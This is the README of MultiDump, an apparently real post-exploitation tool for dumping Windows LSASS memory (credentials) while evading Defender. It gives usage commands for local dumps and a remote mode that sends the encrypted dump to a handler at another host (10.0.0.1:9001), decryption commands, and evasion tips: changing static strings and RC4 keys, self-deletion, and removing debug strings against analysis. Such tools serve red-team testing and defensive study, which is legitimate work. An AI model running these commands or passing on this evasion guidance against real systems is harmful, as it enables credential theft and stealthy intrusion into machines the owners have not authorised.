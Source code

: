 ## MultiDump

### MultiDump is a post-exploitation tool written in C for dumping and extracting LSASS memory discreetly, without triggering Defender alerts, with a handler written in Python.

![](multidump-defender.gif)

### Blog post: https://xre0us.github.io/posts/multidump

MultiDump supports LSASS dump via `ProcDump.exe` or `Comsvc.dll`, it offers two modes: a local mode that encrypts and stores the dump file locally, and a remote mode that sends the dump to a handler for decryption and analysis.

## Usage

```powershell
    __  __       _ _   _ _____
   |  \/  |_   _| | |_(_)  __ \ _   _ _ __ ___  _ __
   | |\/| | | | | | __| | |  | | | | | '_ ` _ \| '_ \
   | |  | | |_| | | |_| | |__| | |_| | | | | | | |_) |
   |_|  |_|\__,_|_|\__|_|_____/ \__,_|_| |_| |_| .__/
                                               |_|

Usage:  MultiDump.exe [-p <ProcDumpPath>] [-l <LocalDumpPath> | -r <RemoteHandlerAddr>] [--procdump] [-v]

-p              Path to save procdump.exe, use full path. Default to current directory
-l              Path to save encrypted dump file, use full path. Default to current directory
-r              Set ip:port to connect to a remote handler
--procdump      Writes procdump to disk and uses it to dump LSASS
-v              Enable verbose mode

MultiDump defaults in local mode using comsvcs.dll and saves the encrypted dump in the current directory.
Examples:
        MultiDump.exe -l C:\Users\Public\lsass.dmp -v
        MultiDump.exe --procdump -p C:\Tools\procdump.exe -r 10.0.0.1:9001
```

As with all LSASS related tools, Administrator/SeDebugPrivilege priviledges are required.

By default, MultiDump uses the `Comsvc.dll` method and saves the encrypted dump in the current directory.

```powershell
MultiDump.exe
...
[i] Local Mode Selected. Writing Encrypted Dump File to Disk...
[i] C:\Users\MALDEV\Desktop\dciqjp.dat Written to Disk.
[i] Key: 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

```bash
./ProcDumpHandler.py -f dciqjp.dat -k 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

If `--procdump` is used, `ProcDump.exe` will be writtern to disk to dump LSASS.

In remote mode, MultiDump connects to the handler's listener.

```bash
./ProcDumpHandler.py -r 9001
[i] Listening on port 9001 for encrypted key...
```

```powershell
MultiDump.exe -r 10.0.0.1:9001
```

The key is encrypted with the handler's IP and port. When MultiDump connects through a proxy, the handler should use the `--override-ip` option to manually specify the IP address for key generation in remote mode, ensuring decryption works correctly by matching the decryption IP with the expected IP set in MultiDump `-r`.

### Building MultiDump

Open in Visual Studio, build in **Release** mode.

### Customising MultiDump

It is recommneded to customise the binary before compiling, such as changing the static strings or the RC4 key used to encrypt them, to do so, another Visual Studio project `EncryptionHelper`, is included. Simply change the key or strings and the output of the compiled `.exe` can be pasted into `MultiDump.c` and `Common.h`.

Self deletion can be toggled by uncommenting the following line in `Common.h`:

```c
#define SELF_DELETION
```

To evade string analysis, most of the output messages can be excluded from compiling by commenting the following line in `Debug.h`:

```c
//#define DEBUG
```

### Credits

- Some techniques used learnt from [MalDev Academy](https://maldevacademy.com), it is an awesome course, highly recommended
- Inspired by [proc_noprocdump](https://github.com/djackreuter/proc_noprocdump)
- Code to further process LSASS dump from [lsassy](https://github.com/Hackndo/lsassy)
- Testing and suggestions from [ballro](https://github.com/ballro)
- Testing and suggestions from [DisplayGFX](https://github.com/DisplayGFX), [nthdeg](https://github.com/nthdeg) and silentbee